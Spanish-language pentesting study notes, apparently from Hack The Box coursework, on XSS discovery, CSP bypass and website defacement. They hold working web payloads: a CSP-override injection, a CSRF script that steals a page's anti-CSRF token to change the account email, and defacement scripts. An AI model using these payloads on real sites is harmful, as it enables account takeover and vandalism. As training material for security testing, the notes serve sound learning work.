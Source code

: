 #### Descubrimiento Manual:
La mejor forma de encontrar una vulnerabilidad XSS es probar payloads y luego analizar el código o ver sus reacciones. Esto puede ser poco eficiente por lo que la creación de scripts propios nos puede ayudar con casos específicos para su descubrimiento. 
Una forma muy importante a la hora de analizar una vulnerabilidad XSS es el code review. Si entendemos como nuestro código está siendo almacenado, podemos encontrar formas de saltarnos los filtros o elegir un payload correctamente, por ejemplo en las DOM xss con el source y el sink. El descubrimiento manual de vulnerabilidades sirve para las páginas que han sido testeadas con herramientas automáticas 

#### Content security policy(CSP)

Es un mecanismo que evita que se ejecute código javascript o evita otras vulnerabilidades. Aunque se puede bypassear.
Se crean una serie de directivas, como la directiva de propio origen y los scripts solamente permitidos de un dominio.
Podemos modificar las políticas comprobando cuál es la que violamos para modificarla y "eliminarla".
`<script>alert(1)</script>&token=;script-src-elem 'unsafe-inline'`

#### [[Cross-site request forgery (CSRF)]]

```Javascript
<script> 
var req = new XMLHttpRequest(); 
req.onload = handleResponse; 
req.open('get','/my-account',true); 
req.send(); 
function handleResponse() { 
var token = this.responseText.match(/name="csrf" value="(\w+)"/)[1]; 
var changeReq = new XMLHttpRequest(); 
changeReq.open('post', '/my-account/change-email', true); changeReq.send('csrf='+token+'&email=test@test.com') }; 
</script>
```

#### Defacing web sites

Defacing es la acción de cambiar el estilo de la página con el objetivo de que se vea que ha sido hackeada. Esto se realiza ejecutando código XSS para cambiar algunos atributos, los más típicos son los siguientes:
- Background Color `document.body.style.background`
- Background `document.body.background`
- Page Title `document.title`
- Page Text `DOM.innerHTML`
##### Cambiar color de fondo

Para poder hacer esto tiene que ser una vulnerabilidad stored XSS y con payloads como el siguiente:
<script>document.body.style.background = "#141d2b"</script>
Para cambiar a una imagen predeterminada podríamos hacerlo de la siguiente forma:
<script>document.body.background = "https://www.hackthebox.eu/images/logo-htb.svg"</script>

##### Cambiar el título de la página
